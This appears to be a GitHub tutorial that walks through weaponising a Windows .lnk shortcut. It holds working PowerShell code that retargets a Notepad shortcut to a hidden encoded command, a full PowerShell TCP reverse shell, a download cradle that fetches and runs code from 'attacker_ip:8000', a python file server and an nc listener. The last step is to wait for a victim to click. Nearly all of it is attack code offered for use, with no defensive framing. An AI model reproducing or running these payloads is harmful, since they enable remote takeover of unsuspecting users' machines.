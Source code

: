 # This is Most underrated attack, if there are so many shortcut links are created . You can Manupulate the .lnk by putting the Raw encoded Code.
Follow this Step to Make a Malicious Link by Putting the Raw code..

# Step By Step 
```language
1. Edit the .lnk link
2. Create file and start a python server
3. start a listner
4. save a the lnk file
```
# 1. step
```language
$WScriptShell = New-Object -ComObject WScript.Shell
$Shortcut = $WScriptShell.CreateShortcut("C:\Common Applications\Notepad.lnk")
$Shortcut.TargetPath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
```
# 2. Create a touch.ps1 file  and start a listener
Create a touch.ps1 file and Edit your ip in this .....
```language
$c=New-Object System.Net.Sockets.TCPClient("127.0.0.1",9001);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length))-ne 0){;$d=(New-Object System.Text.ASCIIEncoding).GetString($b,0,$i);$sb=(iex $d 2>&1|Out-String);$sb2=$sb+"PS "+"> ";$sby=([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sby,0,$sby.Length);$s.Flush()};$c.Close()
```
Create a cradle and put the content in the file and start a server to serv all files.
```language
#make a file and save the cradle content.
nano cradle
cradle content:- IEX(New-Object Net.WebClient).downloadString("http://attacker_ip:8000")

#Make a encoded raw code and paste with below command.
cat cradle | iconv -t utf-16le | base64 -w0; echo

$Shortcut.Arguments = "-Nop -sta -noni -w hidden -encodedCommand <encoded_code_here>"
```
```language
python3 -m http.server 8000
```
# 3. start a listner
```language
rlwrap -cAr nc -lnvp 9001
```
# 4. Save the link and wait for the click on the link
```lanuage
$Shortcut.Save()
```
